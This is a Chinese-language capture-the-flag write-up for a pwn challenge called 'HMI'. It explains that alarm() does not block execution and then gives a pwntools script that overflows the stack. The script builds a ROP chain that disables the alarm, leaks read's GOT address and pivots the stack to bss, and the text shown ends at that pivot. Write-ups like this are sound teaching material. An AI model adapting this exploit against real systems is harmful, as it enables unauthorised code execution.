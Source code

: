![Alt text](images/HML_3.png)

一开始忽略了alarm并不会阻塞程序执行这一点，导致花了很长时间去思考如何退出循环。事实上，handler里面的代码只会在2s后开始执行，在此期间，代码可以正常继续执行，包括退出当前循环。因此，只要能够及时利用2s的时间输入ROP即可。由于本题没有给libc，需要相关偏移量的话可以用libc-database获取。代码如下：

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

debug = 0

if debug:
    p = process('./HMI')
else:
    p = remote('47.104.188.176', 30004)

if debug: gdb.attach(p, "source debug")
# context.log_level = 'debug'

round_times = 355

for i in range(round_times):
    print i
    buf = p.recvline()
    print buf

time.sleep(1)
pop2ret = 0x08048bca
popret = 0x08048469
pop3ret = 0x08048bc9
pop_ebp = 0x08048bcb
leave_ret = 0x080485a8

bss = 0x804a100

binf = ELF('./HMI')

payload = 'a' * 140
payload += p32(binf.plt['alarm']) + p32(popret) + p32(0)   # 关闭alarm
payload += p32(binf.plt['write']) + p32(pop3ret) + p32(1) + p32(0x08048381) + p32(9) # 印标志位
payload += p32(binf.plt['write']) + p32(pop3ret) + p32(1) + p32(binf.got['read']) + p32(4)   # 泄露read函数地址
payload += p32(binf.plt['read']) + p32(pop3ret) + p32(0) + p32(bss) + p32(0x100) # 在bss段上构造ROP
payload += p32(pop_ebp) + p32(bss - 4) + p32(leave_ret) # 把栈帧调整到bss段上

```